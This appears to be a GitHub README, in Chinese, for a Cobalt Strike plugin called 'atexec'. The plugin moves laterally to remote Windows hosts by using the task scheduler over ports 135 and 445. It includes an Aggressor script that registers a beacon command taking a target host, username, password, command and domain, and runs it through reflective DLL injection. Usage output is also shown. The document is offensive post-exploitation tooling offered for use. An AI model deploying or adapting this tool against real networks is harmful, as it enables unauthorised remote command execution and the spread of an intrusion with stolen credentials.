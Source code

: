 # Cobaltstrike-atexec

利用任务计划进行横向，需要与135端口、445端口进行通信

- 主要实现：[如何实现一个Atexec](https://payloads.online/archivers/2020-06-28/1)

- 主要技术：[通过反射DLL注入来构建后渗透模块（第一课）](https://payloads.online/archivers/2020-03-02/1)

## 使用方式

1. 加载[atexec.cna](https://github.com/Rvn0xsy/Cobaltstrike-atexec)

```perl
$dll = "reflective_dll.dll";
beacon_command_register(
	"atexec", 
	"atexec text to beacon log", 
	"Synopsis: atexec [host] [username] [password] [command] [domain]\n");

alias("atexec", {
    $args = substr($0, 7);
    bdllspawn($1, script_resource($dll), $args, "Atexec....", 10000, false);
	blog($1, "My arguments are:" . substr($0, 7) . "\n");
});
```

2. 在Beacon会话获得后

```
beacon> help atexec
Synopsis: atexec [host] [username] [password] [command] [domain]
```